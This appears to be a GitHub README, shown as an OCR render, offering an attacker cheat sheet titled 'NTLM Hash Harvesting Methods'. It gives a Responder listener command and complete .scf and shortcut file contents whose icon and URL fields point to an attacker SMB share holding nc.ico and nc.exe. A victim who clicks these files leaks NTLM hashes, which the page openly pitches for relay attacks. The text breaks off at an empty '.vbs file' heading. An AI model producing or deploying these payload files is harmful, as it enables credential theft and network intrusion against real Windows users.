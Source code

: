 
# NTLM Hash Harvesting Methods

sometimes you need a user to call back to your machine to steal a NTLM hash! Here are methods that work in SMB! Great for NTLM Relay Attacks!

# 🎃SMB - READ AND WRITE 🎃

## 🐈‍⬛.scf file🐈‍⬛

A .scf file is a shell command file

## ⭐ Attacker

sudo responder -w -I tun0

##🌙 Victim

make a .scf file for the victim to click on!

NTLMHarvester.scf

```
[Shell]
Command=2
IconFile=\\10.10.14.4\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

## 🐈‍⬛ .lnd (Windows Shortcut) file 🐈‍⬛

A Windows Shortcut file that can execute programs or scripts located on a network share, enabling attackers to run malicious executables when clicked.

## ⭐ Attacker

```
sudo responder -w -I tun0
```
## 🌙 Victim 

NTLMHarvester.lnk
```
[InternetShortcut]
URL=\\10.10.14.4\tools\nc.exe
IconFile=\\10.10.14.4\tools\nc.ico
```


## 🐈‍⬛ .vbs file 🐈‍⬛
